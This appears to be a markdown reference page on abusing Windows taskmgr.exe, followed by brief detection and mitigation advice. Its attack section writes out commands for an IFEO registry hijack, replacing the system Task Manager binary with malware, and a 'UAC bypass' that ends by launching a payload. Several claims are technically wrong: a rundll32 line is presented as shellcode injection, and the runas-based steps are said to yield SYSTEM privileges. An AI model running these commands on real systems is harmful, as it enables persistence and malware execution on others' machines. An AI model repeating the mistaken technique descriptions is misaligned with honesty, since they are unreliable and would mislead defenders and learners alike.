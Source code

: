 # taskmgr.exe
## What is it?
*```taskmgr.exe``` (Windows Task Manager) is a built-in Windows tool used to **monitor system performance**, **manage running processes**, **and terminate applications**.

## Legitimate Usage
- **Process Management** → View, start, or stop running applications and background processes.
- **Performance Monitoring** → Check CPU, memory, and network usage.
- **Startup Control** → Manage programs that launch at system startup.
- **User Management** → Log off, disconnect, or switch users.
*Since ```taskmgr.exe``` is a **trusted system process**, it is rarely flagged by security tools, making it an attractive target for attackers.*

## How to abuse it
- **Whitelisted Process** → Often allowed by application control policies.
- **Can Be Hijacked or Redirected** → Attackers can replace ```taskmgr.exe``` with a malicious binary.
- **Process Injection & Masquerading** → Used to hide or execute malicious payloads under a legitimate process.
- **Persistence via Registry Manipulation** → Task Manager execution can be redirected to launch malware.

## Example Attacks
### 1. Execution Hijacking via Image File Execution Options (IFEO)
*Attackers can modify Windows Registry to **redirect Task Manager execution** to another malicious binary.*

**Hijacking Task Manager Execution**
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskmgr.exe" /v Debugger /t REG_SZ /d "C:\malicious.exe" /f
```
*Every time Task Manager is opened, it will **launch ```malicious.exe``` instead**.*

### 2. Replacing Task Manager Executable (taskmgr.exe)
*Attackers with elevated privileges can replace ```taskmgr.exe``` with a **malicious version** to maintain persistence.*

**Replacing ```taskmgr.exe``` with a Malicious File**
```
takeown /f C:\Windows\System32\taskmgr.exe
icacls C:\Windows\System32\taskmgr.exe /grant administrators:F
copy C:\malware.exe C:\Windows\System32\taskmgr.exe /Y
```
*The system will launch ```malware.exe``` instead of the real Task Manager.*

### 3. Process Injection into Task Manager
*Attackers can **inject malicious code** into ```taskmgr.exe```, making it execute payloads while appearing legitimate.*

**Injecting Shellcode into Task Manager**
```
rundll32.exe shell32.dll,Control_RunDLL taskmgr.exe
```
*Executes ```taskmgr.exe``` while running injected shellcode in its memory space.*

### 4. Task Manager Used for UAC Bypass
*Attackers can leverage Task Manager to **restart ```explorer.exe``` with high privileges**, allowing them to **execute payloads with SYSTEM integrity**.*

**Steps to Perform UAC Bypass Using Task Manager**
1️⃣ **Kill ```explorer.exe``` via Task Manager**
*Manually terminate ```explorer.exe```*
```
taskkill /F /IM explorer.exe
```
*This will close the Windows desktop environment, forcing the user to restart it manually.*

2️⃣ **Launch Task Manager with Administrator Privileges**
*If running as a standard user, use ```runas``` to open an elevated Task Manager*
```
runas /user:Administrator "taskmgr.exe"
```
*This runs Task Manager in a high-integrity (administrator) context.*

3️⃣ **Restart Explorer with High Privileges**
*Once Task Manager is running **as an administrator**, restart ```explorer.exe``` from the **"File" → "Run new task" menu**, checking **"Create this task with administrative privileges"**.*
*Alternatively, run this command within an elevated Task Manager:*
```
cmd /c start explorer.exe
```
*```explorer.exe``` now runs with **administrator privileges**, allowing execution of any spawned processes as SYSTEM.*

4️⃣ **Execute Malicious Payload with SYSTEM Privileges**
*Now, any process launched via Explorer will **inherit SYSTEM integrity**.*
*To execute a payload (e.g., ```malware.exe```) with SYSTEM privileges:*
```
cmd /c start C:\malware.exe
```
*or*
```
powershell -ExecutionPolicy Bypass -NoProfile -File C:\payload.ps1
```
*The payload runs **with full administrative control**, bypassing UAC.*

# Detection & Mitigation
## Detection
**Monitor Unexpected Explorer Restarts**
- **Event ID 4688 (Process Creation)** → Detect ```explorer.exe``` launched from ```taskmgr.exe```
- **Sysmon Event ID 1 (Process Create)** → Look for ```taskmgr.exe``` executing ```cmd.exe``` or ```powershell.exe```

**Look for Elevated Task Manager Usage**
- **Event ID 4624 (Logon Events)** → Detect administrative logons
- **Monitor ```taskmgr.exe``` running with high privileges**

## Mitigation
- **Restrict Standard Users from Running Task Manager as Admin** → Use Group Policy to enforce access restrictions.
- **Block Unauthorized Explorer Restarts** → Alert on ```explorer.exe``` launching unexpectedly.
- **Use Application Control Policies** → Prevent unauthorized execution of scripts or binaries.
